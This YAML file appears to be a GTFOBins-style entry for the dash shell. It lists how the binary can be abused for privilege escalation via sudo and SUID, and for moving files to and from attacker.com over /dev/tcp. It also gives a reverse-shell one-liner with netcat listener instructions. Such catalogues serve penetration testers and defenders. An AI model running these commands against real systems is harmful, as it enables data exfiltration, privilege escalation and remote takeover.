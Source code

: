 ```yaml
---
functions:
  exec-interactive:
    - code: dash
  sudo-enabled:
    - code: sudo dash
  suid-enabled:
    - code: ./dash -p
  upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "where_to_save"` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        cat $LFILE > /dev/tcp/$RHOST/$RPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_get
        (echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d '\r')" != "" ]; do read i; done; cat) > $LFILE
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
      code: |-
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_get
        cat < /dev/tcp/$RHOST/$RPORT > $LFILE
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        dash -i >& /dev/tcp/$RHOST/$RPORT 0>&1
---
```

